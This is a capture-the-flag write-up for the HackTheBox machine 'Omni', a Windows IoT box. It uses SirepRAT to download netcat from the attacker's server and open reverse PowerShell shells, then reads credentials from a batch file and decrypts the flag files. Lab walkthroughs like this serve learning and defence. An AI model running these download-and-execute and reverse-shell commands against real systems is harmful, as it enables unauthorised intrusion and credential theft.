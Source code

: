 ## Omni [HackTheBox]

> Mayank Srivastava | 5 jan 2021 1:48 PM

## Machine Introduction
```
Name       Omni   

Os Type    Other    

Diffculty  Easy

Points     30

Ip address 10.10.10.204 

```

As usual Basic enumeration

## Nmap Scanning

```
# Nmap 7.91 scan initiated Tue Jan  5 13:36:10 2021 as: nmap -Pn -sC -sV -oN nmap/initial 10.10.10.204
Nmap scan report for 10.10.10.204
Host is up (0.39s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
135/tcp  open  msrpc   Microsoft Windows RPC
8080/tcp open  upnp    Microsoft IIS httpd
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan  5 13:37:04 2021 -- 1 IP address (1 host up) scanned in 53.77 seconds

```
After gathering more information about the box i got at the conclusion that the box is a IOT based and to exploit it we can use SafeBreach-Lab's ```SirepRAT```.
SirepRAT has a functionality which lets us run Arbitrary Program. That means we could run cmd.exe and call in ``` powershell ``` and download a file via the ```Invoke-WebRequest``` cmdlet.

Use the Following command
```

python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -Uri http://10.10.14.50:8000/nc64.exe" --v


```

Now Execute Netcat on the attacker machine to get reverse connection

On attacker machine : ``` nc -nlvp 9999 ```

Run the Following command to get reverse connection from the victm Machine

```
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe 10.10.14.50 9999 -e powershell.exe" --v
```

Now we have a poweshell reverse connection on our machine now lets execute the following command which will give us interesting credentials.

## Exploitation

```

$ cd “c:\ProgramFiles\WindowsPowershell\Modules\PackageManagement”

$ ls -force

```

As You can see there are two credentials in r.bat file so using this credentials we can login to the web application of the machine.

goto Processes > Run Command

Here We Could run commands. Lets try to get a reverse shell.

Start a another netcat listener on your machine again on different port, and then run this command.

```
C:\Windows\System32\spool\drivers\color\nc64.exe <Your_Ip address> 9999 -e powershell.exe
```

Now we will get reverse connection now lets check the username using following commands

```
$env:Username
```

We are logged in as ```app``` user it means we can read the user.txt file but content looks encrypted we need to decrypt it.

For decrypt the flag we need to execute some commands.

```
$credential = Import-CliXml -Path U:\Users\app\user.txt
$ $credential.GetNetworkCredential().Password
```
After Running this command user flag will apper on the konsole


## Post Exploitation

Remember we found two username in r.bat file?
Let's use the second one, The administrator.

Start another netcat listener

GoTo Processes > Run Command

Then again Run this command

```
C:\Windows\System32\spool\drivers\color\nc64.exe <Your_Ip_address> 5555 -e powershell.exe"
```

Now we have a reverse poweshell

same process as ```user.txt``` we can also decrypt ```root.txt```.

```
$ $credential = Import-CliXml -Path U:\Users\administrator\root.txt
$ $credential.GetNetworkCredential().Password
```

Yeahhhhhhhhhhhhh!!!!!!! We have root flag.
